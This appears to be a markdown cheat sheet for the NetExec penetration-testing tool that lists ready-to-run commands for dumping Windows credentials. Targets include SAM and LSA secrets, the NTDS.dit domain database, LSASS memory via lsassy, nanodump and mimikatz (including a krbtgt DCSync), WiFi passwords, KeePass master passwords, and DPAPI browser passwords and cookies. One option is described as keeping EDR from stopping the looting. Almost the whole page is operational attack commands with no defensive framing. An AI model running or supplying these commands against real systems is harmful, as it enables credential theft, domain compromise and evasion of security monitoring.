 # Credentials Dumping

### The following examples use a username and plaintext password although user/hash combos work as well.

# Dump SAM

## Dump SAM hashes using methods from secretsdump.py

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

#### #~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# Dump LSA

## Dump LSA secrets using methods from secretsdump.py

## Requires Domain Admin or Local Admin Priviledges on target Domain Controller!

#### #~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# Dump NTDS.dit

## Requires Domain Admin or Local Admin Priviledges on target Domain Controller

## 2 methods are available:   

#### (default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with additional drsuapi calls to convert the resultant linked-lists into readable format  

#### vss - Uses the Volume Shadow copy Service  

---------------------------------------------------------------------------

#### #~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds

#### #~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users

#### #~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled

#### #~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

## TIP: You can also DCSYNC with the computer account of the DC

### There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py 

#### #~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M ntdsutil

# Dump LSASS

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

## Using Lsassy

### Using the module Lsassy from @pixis you can dump remotely the credentials

#### #~ nxc smb 192.168.255.131 -u administrator -p pass -M lsassy

## Using nanodump

### Using the module nanodump you can dump remotely the credentials

#### #~ nxc smb 192.168.255.131 -u administrator -p pass -M nanodump

## Using Mimikatz (Deprecated)

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

### Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

#### #~ nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz

#### #~ nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"

# Dump WiFi password

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

### Get the WIFI password register in Windows

#### nxc smb <ip> -u user -p pass -M wireless

# Dump KeePass

### You can check if keepass is installed on the target computer and then steal the master password and decrypt the database!

#### $ NetExec smb <ip> -u user -p pass -M keepass_discover

#### $ NetExec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"

# Dump DPAPI

### You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options : 

 - cookies: Collect every cookies in browsers

 - nosystem: Won't collect system credentials. This will prevent EDR from stopping you from looting passwords

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

#### $ nxc smb <ip> -u user -p password --dpapi

#### $ nxc smb <ip> -u user -p password --dpapi cookies

#### $ nxc smb <ip> -u user -p password --dpapi nosystem

